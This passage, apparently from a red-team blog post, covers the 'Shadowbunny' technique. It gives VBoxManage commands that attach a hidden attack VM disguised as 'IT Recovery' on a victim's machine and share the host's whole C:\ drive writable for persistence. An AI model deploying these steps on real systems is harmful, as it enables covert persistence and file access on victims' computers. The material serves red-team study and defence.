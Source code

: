 * Now it’s time to mount the Shadowbunny image

    To do that we create a storage controller

    ```
    .\VBoxManage.exe storagectl $vmname –name “SATA Controller” –add sata
    ```

* And finally attach the VHD file to the controller

    ```
    .\VBoxManage.exe storageattach $vmname –comment “Shadowbunny Disk” –storagectl “SATA Controller” –type hdd –medium “$env:USERPROFILE\VirtualBox VMs\IT Recovery\shadowbunny.vhd” –port 0
    ```

This completes the setup of a basic VM. For deployment the `xml file` can be pre-created and passed it into the call to `createvm` with `--register`. 

To achieve persistence on the host we can do an additional trick, which is to register a shared folder with the VM. This is what we will discuss next.


## Optionally adding a shared folder

As we saw the settings file is named after the machine and has a `.vbox` extension. For instance, on my machine (using default settings) its located at `%USERPROFILE%\VirtualBox VMs\IT Recovery\IT Recovery.vbox`.

To create a shared folder between VM and host we can use the `sharedfolder`command:
```
.\VBoxManage.exe sharedfolder add $vmname –name shadow_c –hostpath c:\ -automount
```

Shared folders are configured via the xml configuration file. After running above command the following is visible in the configuration file:

```
<SharedFolders>
   <SharedFolder name="shadow_c" hostPath="c:\" writable="true" autoMount="true"/>
</SharedFolders>
```

Inside the VM (considering it is Linux based), one can simple mount the drive via (in case it wasn't auto mounted)

```
sudo mkdir /mnt/c
sudo mount -t vboxsf shadow_c /mnt/c
```

This requires the VirtualBox **Guest Additions** to be installed on the attack VM. 

This completes the configuration, if one would open VirtualBox on the victim’s machine they would see the following UI:

![Shadowbunny VirtualBox VM ITRecovery](/blog/images/2020/shadowbunny-virtualbox-itrecovery.png)

As can be seen in in the screenshot, the virtual machine **“IT Recovery”** was successfully created and is currently powered off. Let’s power it on.
